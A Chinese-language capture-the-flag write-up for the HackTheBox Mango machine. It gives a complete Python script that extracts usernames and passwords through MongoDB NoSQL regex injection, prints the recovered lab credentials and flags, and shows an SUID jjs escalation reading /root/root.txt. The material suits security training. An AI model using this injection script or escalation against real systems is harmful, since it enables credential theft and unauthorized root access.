








## 信息收集

22端口，80端口，443端口



这里改一下host

```
staging-order.mango.htb
```

访问网站


## user flag

有点坑，是mongodb，nosql注入



参考爆破脚本

```python
#!/usr/bin/env python  

import requests  

import string  

  

url = "http://staging-order.mango.htb/index.php"  

headers = {"Host": "staging-order.mango.htb"}  

cookies = {"PHPSESSID": "9k6j39np56td4vq3q4lg4eh95j"}  

possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]  

def get_password(username):  

    print("Extracting password of " + username)  

    params = {"username":username, "password[$regex]":"", "login": "login"}  

    password = "^"  

    while True:  

        for c in possible_chars:  

            params["password[$regex]"] = password + c + ".*"  

            pr = requests.post(url, data=params, headers=headers, cookies=cookies, allow_redirects=False)  

            if int(pr.status_code) == 302:  

                password += c  

                break  

        if c == possible_chars[-1]:  

            print ("Found password "+password[1:].replace("\\", "")+" for username "+username)  

            return password[1:].replace("\\", "")  

  

def get_usernames():  

    usernames = []  

    params = {"username[$regex]":"", "password[$regex]":".*", "login": "login"}  

    for c in possible_chars:  

        username = "^" + c  

        params["username[$regex]"] = username + ".*"  

        pr = requests.post(url, data=params, headers=headers, cookies=cookies, allow_redirects=False)  

        if int(pr.status_code) == 302:  

            print("Found username starting with "+c)  

            while True:  

                for c2 in possible_chars:  

                    params["username[$regex]"] = username + c2 + ".*"  

                    if int(requests.post(url, data=params, headers=headers, cookies=cookies, allow_redirects=False).status_code) == 302:  

                        username += c2  

                        print(username)  

                        break  

                if c2 == possible_chars[-1]:  

                    print("Found username: " +username[1:])  

                    usernames.append(username[1:])  

                    break  

    return usernames  

for u in get_usernames():  

    get_password(u)
```

爆出密码



```
Found username: mango
Extracting password of admin
Found password t9KcS3>!0B#2 for username admin
Extracting password of mango
Found password h3mXK8RhU~f{]f5H for username mango
```

使用mango用户登陆



切换为admin



```
userflag

$ cat user.txt
79bf31c6c6eb38a8567832f7f8b47e92
```

## root flag

`sudo -l` 试一下



```
find / -user root -perm -4000 2>/dev/null
```

寻找SUID



根据[https://gtfobins.github.io/gtfobins/jjs/可直接读取到root.txt](https://gtfobins.github.io/gtfobins/jjs/可直接读取到root.txt)



```bash
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> var BufferedReader = Java.type("java.io.BufferedReader");
jjs> var FileReader = Java.type("java.io.FIleReader");
java.lang.RuntimeException: java.lang.ClassNotFoundException: java.io.FIleReader
jjs> var FileReader = Java.type("java.io.FileReader");
jjs> var br = new BufferedReader(new FileReader("/root/root.txt"));
jjs> while((line=br.readline())!=null){print(line);}
<shell>:1 TypeError: br.readline is not a function
jjs> while((line=br.readLine())!=null){print(line);}
8a8ef79a7a2fbb01ea81688424e9ab15
```
